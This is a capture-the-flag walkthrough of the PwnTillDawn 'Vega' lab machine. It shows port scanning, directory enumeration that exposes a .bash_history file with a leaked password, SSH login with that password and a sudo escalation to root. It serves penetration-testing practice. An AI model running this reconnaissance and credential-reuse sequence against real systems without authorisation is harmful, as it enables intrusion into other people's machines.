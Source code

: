 ```yaml
---
categories: [PwnTillDawn]
tags: [Password Bruteforce, Hid&Trial, PrivEsc]  
img_path: /Vulnhub-Files/img/
image:
  path: Vega/Untitled.png
  alt: PwnTillDawn Machine ➡️ https://www.wizlynxgroup.com/ https://online.pwntilldawn.com/
---
```


## Description ⤵️ 

This is a <kbd>*Hollywood*</kbd> machine writeup/walkthrough, from PwnTillDawn platform -> https://online.pwntilldawn.com/ with is maintain through wizlynx group -> https://www.wizlynxgroup.com/ .


## Port Scan Results ⤵️

```bash
**┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/222]
└─$ cat Nmap_results.txt
# Nmap 7.94 scan initiated Sun Oct 15 15:37:40 2023 as: nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.150.150.222
Nmap scan report for 10.150.150.222
Host is up (0.17s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 af:56:59:c5:9a:de:f4:a9:b7:8f:34:4b:a2:21:24:71 (RSA)
|   256 1b:e8:16:d4:dc:a6:7a:3e:5d:6f:f2:95:5a:59:08:9a (ECDSA)
|_  256 9c:35:dd:da:ee:a9:b4:0b:55:68:45:fd:8f:85:35:30 (ED25519)
80/tcp    open  http     Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Home Page
8089/tcp  open  ssl/http Splunkd httpd
| http-robots.txt: 1 disallowed entry 
|_/
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2019-10-25T09:19:54
|_Not valid after:  2022-10-24T09:19:54
|_http-server-header: Splunkd
|_http-title: splunkd
10000/tcp open  http     MiniServ 1.941 (Webmin httpd)
|_http-title: Site does not have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel**
```
{: .nolineno}

## Web Enumeration ⤵️

I started doing directory traversal and I got some results from the `/home` directories →

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/222]
└─$ dirb 'http://10.150.150.222/' 

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Oct 15 20:55:21 2023
URL_BASE: http://10.150.150.222/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.150.150.222/ ----
+ http://10.150.150.222/.bash_history (CODE:200|SIZE:2235)                                                                                       
+ http://10.150.150.222/.bashrc (CODE:200|SIZE:3771)                                                                                             
==> DIRECTORY: http://10.150.150.222/.cache/                                                                                                     
+ http://10.150.150.222/.profile (CODE:200|SIZE:807)                                                                                             
+ http://10.150.150.222/0 (CODE:200|SIZE:82726)                                                                                                  
+ http://10.150.150.222/admin (CODE:302|SIZE:0)                                                                                                  
+ http://10.150.150.222/catalog (CODE:302|SIZE:0)                                                                                                
+ http://10.150.150.222/checkout (CODE:302|SIZE:0)                                                                                               
+ http://10.150.150.222/cms (CODE:200|SIZE:82740)                                                                                                
+ http://10.150.150.222/contact (CODE:200|SIZE:28351)                                                                                            
+ http://10.150.150.222/home (CODE:200|SIZE:80260)                                                                                               
+ http://10.150.150.222/Home (CODE:301|SIZE:0)                                                                                                   
+ http://10.150.150.222/index.php (CODE:200|SIZE:82738)                                                                                          
^C> Testing: http://10.150.150.222/known_hosts
```
{: .nolineno}

Lets check `.bash_history` here →

![Untitled](Vega/Untitled%201.png)

I got a mysql password and username as →

```bash
vega : puplfiction1994
```
{: .nolineno}

I tried this credentials for SSH login and I got it as wrong credentials and I also I tried to download the file dumpmagento.sql to the system and the file was of 0 bytes →

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/222]
└─$  ls -al dumpmagento.sql 
-rw-r--r-- 1 kali kali 0 Oct 17 20:30 dumpmagento.sql
```
{: .nolineno}

>It means that → 
>
>1. If the database is empty thats why it is of 0 bytes or .
>2. If the password or the login credentials is wrong that is why.
{: .prompt-tip }

I checked the site again and I got something related to the password like this →

![Untitled](Vega/Untitled%202.png)

Now I compared it with password and got to know that the bash_history entry is of human error so lets use this password insted → 

```bash
vega : pulpfiction1994
```
{: .nolineno}

## SSH SHELL ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/222]
└─$ ssh vega@10.150.150.222
vega@10.150.150.222 is password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-66-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Oct 17 16:24:55 UTC 2023

  System load:  0.23               Processes:            186
  Usage of /:   43.2% of 19.56GB   Users logged in:      1
  Memory usage: 21%                IP address for ens33: 10.150.150.222
  Swap usage:   0%

 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

51 packages can be updated.
31 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Tue Apr 21 10:11:55 2020
vega@vega:~$ whoami
vega
vega@vega:~$ id
uid=1000(vega) gid=1000(vega) groups=1000(vega),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
vega@vega:~$ sudo -l
[sudo] password for vega: 
Matching Defaults entries for vega on vega:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User vega may run the following commands on vega:
    (ALL : ALL) ALL
vega@vega:~$ sudo su -
root@vega:~# whoami
root
root@vega:~# id
uid=0(root) gid=0(root) groups=0(root)
root@vega:~# cd /root
root@vega:~# ls -al
total 60
drwx------  7 root root 4096 May 14  2020 .
drwxr-xr-x 24 root root 4096 Oct 23  2019 ..
-rw-------  1 root root 2513 Apr 21  2020 .bash_history
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
-rw-r--r--  1 root root  115 May 14  2020 CAM.shortcut
drwxr-xr-x  2 root root 4096 Sep  6  2019 .composer
-rw-r--r--  1 root root   41 Sep 27  2019 FLAG42.txt
drwx------  3 root root 4096 Oct  4  2019 .gnupg
drwxr-xr-x  3 root root 4096 Sep  6  2019 .local
-rw-------  1 root root  651 Apr  2  2020 .mysql_history
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   66 Sep  6  2019 .selected_editor
drwx--x---  2 root root 4096 Oct 25  2019 .splunk
drwx------  2 root root 4096 Sep  6  2019 .ssh
-rw-------  1 root root 2085 Sep 27  2019 .viminfo
root@vega:~#
```
{: .nolineno}

Now I am root !!